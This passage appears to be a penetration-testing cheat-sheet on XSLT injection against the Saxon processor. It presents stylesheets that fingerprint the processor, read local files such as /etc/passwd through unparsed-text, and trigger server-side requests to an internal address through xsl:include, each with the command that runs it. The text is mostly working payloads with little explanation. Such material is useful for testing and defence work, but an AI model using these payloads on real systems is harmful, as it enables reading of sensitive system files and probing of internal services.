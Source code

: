 ##### detection.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```
#### Run the previous command, but using the detection file instead
```Shell
saxonb-xslt -xsl:detection.xsl catalogue.xml
```
Output:
```
Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```
Based on the preprocessor, we can go to the XSLT documentation for this version to identify functions of interest, such as the below.
- `unparsed-text` can be used to read local files.
#### Using unparsed-text to read local files
##### readfile.xsl
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
##### Using readfile w/ saxonb-xslt to read `/etc/passwd`
```Shell
saxonb-xslt -xsl:readfile.xsl catalogue.xml
```
#### `xsl:include` can be used to perform SSRF
##### ssrf.xsl
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```
##### Using the ssrf.xsl file to perform SSRF
```Shell
saxonb-xslt -xsl:ssrf.xsl catalogue.xml
```
#### File for fingerprinting
##### fingerprinting.xsl
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
```